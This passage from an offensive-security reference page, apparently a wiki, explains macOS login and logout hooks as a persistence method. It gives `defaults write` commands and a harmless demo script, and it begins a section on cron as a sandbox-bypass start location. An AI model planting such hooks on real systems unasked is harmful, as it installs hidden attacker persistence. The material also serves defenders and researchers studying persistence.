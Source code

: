 #### Location

* You need to be able to execute something like `defaults write com.apple.loginwindow LoginHook /Users/$USER/hook.sh`
  * `Lo`cated in `~/Library/Preferences/com.apple.loginwindow.plist`

They are deprecated but can be used to execute commands when a user logs in.

```bash
cat > $HOME/hook.sh << EOF
#!/bin/bash
echo 'My is: \`id\`' > /tmp/login_id.txt
EOF
chmod +x $HOME/hook.sh
defaults write com.apple.loginwindow LoginHook /Users/$USER/hook.sh
defaults write com.apple.loginwindow LogoutHook /Users/$USER/hook.sh
```

This setting is stored in `/Users/$USER/Library/Preferences/com.apple.loginwindow.plist`

```bash
defaults read /Users/$USER/Library/Preferences/com.apple.loginwindow.plist
{
    LoginHook = "/Users/username/hook.sh";
    LogoutHook = "/Users/username/hook.sh";
    MiniBuddyLaunch = 0;
    TALLogoutReason = "Shut Down";
    TALLogoutSavesState = 0;
    oneTimeSSMigrationComplete = 1;
}
```

To delete it:

```bash
defaults delete com.apple.loginwindow LoginHook
defaults delete com.apple.loginwindow LogoutHook
```

The root user one is stored in **`/private/var/root/Library/Preferences/com.apple.loginwindow.plist`**

## Conditional Sandbox Bypass

{% hint style="success" %}
Here you can find start locations useful for **sandbox bypass** that allows you to simply execute something by **writing it into a file** and **expecting not super common conditions** like specific **programs installed, "uncommon" user** actions or environments.
{% endhint %}

### Cron

**Writeup**: [https://theevilbit.github.io/beyond/beyond\_0004/](https://theevilbit.github.io/beyond/beyond\_0004/)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
  * However, you need to be able to execute `crontab` binary
  * Or be root
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)
